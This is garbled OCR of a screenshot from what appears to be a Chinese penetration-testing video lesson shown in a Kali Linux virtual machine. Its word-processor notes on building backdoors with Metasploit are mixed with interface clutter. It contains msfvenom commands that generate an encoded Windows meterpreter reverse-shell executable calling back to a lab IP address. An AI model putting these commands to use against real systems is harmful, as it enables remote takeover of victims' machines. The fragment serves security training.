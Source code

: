

36.Me
用Metasploit生成后门
237．Metasploit：生成Android后门
+ 三文件
开始 插入
引用 审岡
章节 安全 开发工具 特色功能
Q查找 x剪切
宋体
母··女閏閏·出出·OAA
AaBbCcDd
AaBb AaBbC AaBbC 格式期
BIU-A·XxA··A·A
正文 标■1 标■2 标题3 新样式
文档助手 文字工具
查找？换选择 ■■
PHP后门
田· 回收站
Android 后门 等等
文件系统 主文件夹
生成Windows后门
msfvenom -p windows/meterpreter/reverse_tcp 1host=192.168.152.128 Kali Linux
1port=5555 -f exe -o/home/kali/payload.exe amd641
msfvenom -p windows/meterpreter/reverse_tcp 1host=192.168.152.128 lport=5555-i 3-e x86/shikata_ga_nai -f exe -o/home/kali/payload.exe Msfvenom
msfvenom--list archs
查看支持的系统架构 Imsfvenom--list platforms
查看支持系统平台
88 页例：1 页面：1／2 节：1／1 设置值：12.9厘米 行：16 列：59 字数：27／203 拼写检查 文档校对
连续播放
高清
倍速 

hongkeketang-VMware Workstation
文件 编辑E
首页 hongkeketang
临売横板
36.Metasploit, etasploit生成后门
37.Metasploit:生成Android后门
shigua
三文件、
开始
页国布局
引用
章节
安全
开发工具
特色功能
Q查找
已同步·色协作 凸分享
×切
·小四
A'A
AaBbC AaBbCcDc AaBbCcD AaBbCcDd
AA
文件（F） 动作
粘贴
0复 格式期
A
HTML
普通（网站） 默认段...
新样式·文档助手 文字工具·查找替换·选择
hong